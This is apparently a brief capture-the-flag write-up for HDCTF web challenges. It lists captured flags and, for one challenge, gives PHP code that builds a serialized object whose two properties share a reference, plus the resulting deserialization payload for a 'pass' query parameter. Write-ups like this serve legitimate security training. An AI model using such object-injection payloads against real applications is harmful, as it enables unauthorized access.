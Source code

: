 

# do_u_know_HTTP

![](./img/do_u_know_HTTP.jpg)

HDCTF{U_must_konw_all_kinds_of_network_protocols_such_as_HTTP}

# dudaima_1

引用赋值绕过恒等

```php
<?php
class Just4Fun {
	public $enter;
	public $secret;
}
$o = new Just4Fun();
$o->enter = &$o->secret;

echo serialize($o);
```

payload : 

```
?pass=O:8:"Just4Fun":2:{s:5:"enter";N;s:6:"secret";R:2;}
```

HDCTF{72595ef46cff90ccb8dd99a177721bc5}

# erciyuan

响应头存在提示

![](./img/erciyuan.jpg)
